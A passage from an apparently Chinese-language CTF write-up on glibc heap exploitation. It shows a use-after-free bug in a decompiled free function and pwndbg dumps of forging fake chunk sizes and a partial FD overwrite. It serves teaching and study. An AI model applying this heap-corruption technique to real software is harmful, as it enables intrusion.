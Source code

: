 在 Free 功能中存在 指針未置零而造成的懸掛指針。

```c
void free_chunk()
{
  unsigned int v0; // [rsp+Ch] [rbp-4h]@1

  printf("\nEnter index :");
  __isoc99_scanf("%d", &v0);
  if ( v0 <= 0x13 )
    free(heap_ptrs[(unsigned __int64)v0]);
}
```



### 第一步

首先僞造一個 chunk  ，chunk的大小爲0x61。緊接着我們利用 partial overwrite 將 FD 指向僞造的chunk（當然，這裏我們也可以用 UAF 完成）。

僞造 chunk size

```bash
pwndbg>
0x555555757050: 0x41414141      0x41414141      0x41414141      0x41414141
0x555555757060: 0x41414141      0x41414141      0x41414141      0x41414141
0x555555757070: 0x41414141      0x41414141      0x41414141      0x41414141
0x555555757080: 0x41414141      0x41414141      0x41414141      0x41414141
0x555555757090: 0x41414141      0x41414141      0x61    0x0     <----------
```

這裏，我們 free 掉 chunk 1，這個時候我們能獲得一個 unsortbin

```
0x555555757020 PREV_INUSE {
  prev_size = 0x0,
  size = 0xd1,
  fd = 0x7ffff7dd1b58 <main_arena+88>,
  bk = 0x7ffff7dd1b58 <main_arena+88>,
  fd_nextsize = 0x4141414141414141,
  bk_nextsize = 0x4141414141414141
}
```

接着，我們重分配 0xd1 這塊 chunk，以及修改其 size 爲0x71

```
pwndbg> x/40ag 0x555555757020
0x555555757020: 0x4141414141414141      0x71
0x555555757030: 0x7ffff7dd1b58 <main_arena+88>  0x7ffff7dd1b58 <main_arena+88>
0x555555757040: 0x4141414141414141      0x4141414141414141
0x555555757050: 0x4141414141414141      0x4141414141414141
0x555555757060: 0x4141414141414141      0x4141414141414141
0x555555757070: 0x4141414141414141      0x4141414141414141
0x555555757080: 0x4141414141414141      0x4141414141414141
0x555555757090: 0x4141414141414141      0x61
```
